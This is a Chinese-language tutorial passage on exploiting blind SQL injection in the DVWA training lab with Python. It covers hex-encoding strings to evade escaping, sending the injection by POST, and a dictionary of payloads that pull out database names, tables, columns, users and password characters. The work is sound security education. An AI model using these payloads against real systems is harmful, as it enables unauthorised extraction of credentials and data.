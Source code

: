 # 如何在 python 中将一个字符串转换成它的十六进制文字值？

在 python 中我们可以用非常简单的方式将一个字符串转换成它的[十六进制文字值](https://dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html)，我们需要用 *encode* 对函数进行编码，然后用 *hex* 函数进行转换。

但是为了在查询中使用十六进制版本，我们需要在结果前面加上*“0x”*字符串。

因此，为了使一切更具可读性，让我们定义将转换 python 脚本中每个字符串的函数。

```
def get_hex_str(string):
    return f'0x{string.encode("utf-8").hex()}'
```

# 用 POST (HTTP)更改 GET (HTTP)方法

至此，我们已经解决了[MySQL _ real _ escape _ string](https://www.php.net/manual/en/function.mysql-real-escape-string.php)函数的问题。
但是如果以我们进入[低难度等级](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)所用的 python 脚本为出发点，我们就不得不考虑要把 HTTP 方法改成 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 。

由于我们之前所做的选择，我们可以通过修改 *get_query_result* 函数中的几行代码来实现目标。

让我们看看新功能:

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        data = {
            "id": concrete_query,
            "Submit": "Submit"
        }
        response = s.post(sqli_blind_url, data=data)
        parser = DVWASQLiResponseParser(response)
        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```

不是比你想象的简单吗？

现在，我们可以一步一步地看到我们可以做的一些小改变，以使脚本工作，并利用我们的 [DVWA](https://github.com/digininja/DVWA) 机器中的盲 SQL 部分。

# 查询词典

我想对代码进行排序，让所有重要的工作一目了然，因此与之前的脚本不同，这一次我将所有有效负载分组到一个全局字典中。

```
queries = {
    "db_length": "1 AND LENGTH(DATABASE()) = {} #",
    "db_name": "1 AND SUBSTRING(DATABASE(), {}, 1) = {}",
    "n_tables": "1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema={})={} #",
    "tables": "1 AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_schema={} {} LIMIT 1),{},1)={} #",
    "n_columns": "1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name={})={} #",
    "columns": "1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name={} LIMIT {}, 1),{},1)={} #",
    "users": "1 AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)={} #",
    "pwd_len": "1 AND LENGTH((SELECT {} FROM {} WHERE {}={}))={} #",
    "pwd": "1 AND SUBSTR((SELECT {} FROM {} WHERE {}={} LIMIT 1), {}, 1)={} #"
}
```
